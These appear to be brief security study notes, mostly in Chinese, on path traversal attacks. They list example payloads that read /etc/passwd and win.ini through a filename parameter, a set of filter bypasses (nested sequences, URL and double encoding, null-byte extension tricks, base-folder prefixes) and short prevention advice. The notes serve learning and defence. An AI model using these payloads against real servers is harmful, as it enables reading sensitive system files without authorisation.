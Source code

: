 ## Path traversal (../)
- 能夠讀取運行應用程式的伺服器上的任意檔案
- 能夠寫入伺服器上的任意文件
- 修改應用程式資料或行為
- **Example :**
    - <"img src="/loadImage?filename=218.png""> --> call /var/www/images/218.png
    - https://insecure-website.com/loadImage?filename=../../../etc/passwd
    - ../和都是..\有效的目錄遍歷序列
    -  Windows 伺服器 : https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

## Bypass : 
- 絕對路徑 : filename=/etc/passwd
- Ｎested traversal : "....//" or "....\/"
    - (....//....//....//etc/passwd)
- URL 編碼 :%2e%2e%2f, %252e%252e%252f , ..%c0%af or ..%ef%bc%8f
    - Burp Intruder: Fuzzing - path traversal
- 基底資料夾 : filename=/var/www/images/../../../etc/passwd
- 副檔名結尾 : filename=../../../etc/passwd%00.png

## prevent a path traversal attack
- 白名單 : 處理使用者輸入之前，請先驗證其有效性
- 僅包含字母數字字元
- 使用平台檔案系統 API 來規範化該路徑
